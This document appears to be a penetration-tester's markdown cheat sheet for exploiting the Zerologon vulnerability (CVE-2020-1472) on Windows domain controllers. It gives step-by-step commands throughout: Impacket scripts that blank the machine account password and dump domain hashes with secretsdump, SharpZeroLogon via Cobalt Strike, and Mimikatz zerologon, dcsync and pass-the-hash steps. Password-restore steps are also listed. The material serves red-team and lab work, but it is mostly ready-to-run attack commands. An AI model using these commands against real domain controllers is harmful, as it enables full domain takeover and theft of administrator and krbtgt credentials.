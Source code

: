 ## CVE-2020-1472 Zerologon

#### As the name implies, if the machine is vulnerable to Zerologon, it can reset the administrator credentials to an empty string, then attempt to dump the hashes via secretsdump without having to use a password.

### Tools: Impacket-secretsdump, https://github.com/risksense/zerologon, https://github.com/SecuraBV/CVE-2020-1472

#### 1) python3 set_empty_pw.py NETBIOS_NAME DC_IP 

#### 2) If attempt was successful, then: impacket-secretsdump -just-dc -no-pass DOMAIN.LOCAL/NETBIOS_NAME\$DC_IP

#### impacket-secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'

#### 3) When you dump the domain admin hash, you can use it to Pass-the-Hash via evil-winrm or attempt to crack it offline with hashcat

#### 4) At login, copy the SAM and SYSTEM hives to your local machine, then dump them offline (Alternative to secretsdump)

#### 5) python3 reinstall_original_pw.py NETBIOS_NAME DC_IP ORIGINAL_NTLM_ADMIN_HASH (Reinstalls the original password that the admin had to prevent permanent damage on the machine)

### TIP: The LM and NTLM hashes represented in the command are actually the hashed version of empty password/string

## Alternate Method: nccfsas - .NET binary for Cobalt Strike's execute-assembly

### Tools: https://github.com/nccgroup/nccfsas

### Steps:

#### 1) execute-assembly SharpZeroLogon.exe DOMAIN_CONTROLLER.LOCAL (Check)

#### 2) execute-assembly SharpZeroLogon.exe DOMAIN_CONTROLLER.LOCAL -reset (Reset the machine account password)

#### 3) execute-assembly SharpZeroLogon.exe DOMAIN_CONTROLLER.LOCAL -patch (Reset the password back)

## Alternate Method: CrackMapExec (Only check)

#### 1) crackmapexec smb DC_IP -u USERNAME -p PASSWORD -d DOMAIN -M zerologon

## Alternate Method: Mimikatz - 2.2.0 20200917 Post-Zerologon

### Steps:

#### 1) privilege::Debug

#### 2) lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ (Check for CVE)

#### 3) lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit (Exploit the CVE and set the computer account's password to "")

#### 4) lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ 

#### lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ (Execute dcsync to extract some hashes)

#### 5) sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN (Pass The Hash with the extracted Domain Admin hash)

#### 6) lsadump::postzerologon /target:DC_IP /account:DC01$ (Reset password. Use IP address instead of FQDN to force NTLM with Windows APIs)
